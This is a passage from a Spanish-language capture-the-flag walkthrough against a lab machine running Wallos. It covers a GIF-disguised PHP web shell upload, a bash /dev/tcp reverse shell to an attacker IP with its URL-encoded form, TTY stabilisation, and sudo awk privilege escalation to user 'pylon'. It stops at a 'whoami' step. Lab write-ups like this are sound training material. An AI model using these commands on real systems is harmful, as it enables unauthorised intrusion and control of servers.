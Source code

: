 Finalmente, en "/images/uploads/logos" vemos nuestro archivo !!

Si lo ejecutamos, nos envia a una pagina donde vemos por pantalla "GIF89a;" que es justo lo que el exploit "51924.txt" nos decia.

Bien, ahora para ver si tenemos acceso, probamos a escribir en el navegador:
```
http://panel.wallet.dl/images/uploads/logos/XXXXXXX-NOMBRESCRIPT.php?cmd=whoami
```
y obtenemos el siguiente resultado:
```
GIF89a; www-data
```
Perfecto, es hora de intentar con NETCAT ponernos a la escucha y recibir una reverse en nuestra terminal.

Para ello, escribimos en ella "nc -nlvp 444", y en el navegador escribimos la tipica reverse, pero "url encondeada" obtenida de la pagina "https://www.revshells.com/":
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"
```
Para hacer esto, la propia pagina nos permite pasar dicho comando a formato "URL Encode", abajo a la derecha, y donde nos quedaria:
```
bash -c "sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F444%200%3E%261"
```
Con esto hemos obtenido ya la reverse shell y con ello, el acceso a la maquina victima. De todas formas, ahora es momento de hacer un tratamiento de la tty de la siguiente forma:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@8ddb09914e31:/var/www/wallos/images/uploads/logos$ 
```
Bueno, toca ahora intentar una escalada de privilegios, por lo que escribiremos en la terminal "sudo -l" y obteniendo:
```
www-data@8ddb09914e31:/var/www/wallos/images/uploads/logos$  sudo -l

Matching Defaults entries for www-data on 8ddb09914e31:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on 8ddb09914e31:
    (pylon) NOPASSWD: /usr/bin/awk
    
www-data@8ddb09914e31:/var/www/wallos/images/uploads/logos$ 
```
Por lo que se ve, hay un usuario llamado "pylon" que puede ejecutar el binario "awk" sin contraseña, por lo que iremos a la pagina "https://gtfobins.github.io/" y buscaremos el binario "awk" en su seccion "Sudo", lo que nos muestra:
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
Asi que ejecutamos este comando, pero con la ruta completa del binario "awk" y el usuario "pylon":
```
sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/sh")}'
```
Si ponemos "whoami" vemos lo siguiente: